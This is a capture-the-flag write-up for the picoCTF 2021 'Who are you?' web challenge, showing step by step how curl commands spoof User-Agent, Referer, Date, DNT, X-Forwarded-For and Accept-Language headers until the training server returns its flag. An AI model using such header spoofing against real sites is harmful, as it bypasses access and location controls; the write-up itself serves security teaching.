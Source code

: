 # Who are you?

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn 

http://mercury.picoctf.net:38322/

Hints:
1. It ain't much, but it's an RFC https://tools.ietf.org/html/rfc2616
```

## Solution

Browsing to the website displays the message `Only people who use the official PicoBrowser are allowed on this site!`.  

### Changing the User-agent header

We have the wrong [user-agent header](https://en.wikipedia.org/wiki/User-Agent_header).  
See [section 14.43 User-Agent](https://datatracker.ietf.org/doc/html/rfc2616#section-14.43) in the RFC.

The user-agent is easiest changed with `curl`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$  curl -s -A PicoBrowser http://mercury.picoctf.net:38322/ | grep h3                         
                                <h3 style="color:red">I don&#39;t trust users visiting from another site.</h3>         
```

### Changing the Referer header

Hhm, we need to make it look as if we came from the same site. That is, change the [referer header](https://en.wikipedia.org/wiki/HTTP_referer).  
See [section 14.36 Referer](https://datatracker.ietf.org/doc/html/rfc2616#section-14.36) in the RFC.

Again, we use `curl` for this
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">Sorry, this site only worked in 2018.</h3>  
```

Still not there! 

### Changing the Date header

We also need to change the Date header.  
See [section 14.18 Date](https://datatracker.ietf.org/doc/html/rfc2616#section-14.18) in the RFC.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">I don&#39;t trust users who can be tracked.</h3>
```

### Changing the DNT header

OK, we also need to change the [Do Not Track (DNT) header](https://en.wikipedia.org/wiki/Do_Not_Track).

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" -H "DNT: 1" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">This website is only for people from Sweden.</h3>
```

More work to do...

### Changing the XFF header

Hhm, we need to change the [X-Forwarded-For (XFF) header](https://en.wikipedia.org/wiki/X-Forwarded-For) as well.  
For that we need a random [IP address in Sweden](https://www.nirsoft.net/countryip/se.html) such as `213.89.89.89`.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" -H "DNT: 1" -H "X-Forwarded-For: 213.89.89.89" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">You&#39;re in Sweden but you don&#39;t speak Swedish?</h3>
```

Still not there!

### Changing the Accept-Language header

We also need to change the Accept-Language header to be `sv`.  
See [section 14.4 Accept-Language](https://datatracker.ietf.org/doc/html/rfc2616#section-14.4) in the RFC.  

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" -H "DNT: 1" -H "X-Forwarded-For: 213.89.89.89" -H "Accept-Language: sv" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:green">What can I say except, you are welcome</h3>
                        <b>picoCTF{<REDACTED>}</b>
```

And there, finally, we have the flag.

For additional information, please see the references below.

## References

- [RFC 2616 - HTTP 1.1](https://datatracker.ietf.org/doc/html/rfc2616)
- [curl(1) - Linux man page](https://linux.die.net/man/1/curl)
- [Wikipedia - User-Agent header](https://en.wikipedia.org/wiki/User-Agent_header)
- [Wikipedia - HTTP referer](https://en.wikipedia.org/wiki/HTTP_referer)
- [Wikipedia - Do Not Track](https://en.wikipedia.org/wiki/Do_Not_Track)
- [Wikipedia - X-Forwarded-For](https://en.wikipedia.org/wiki/X-Forwarded-For)
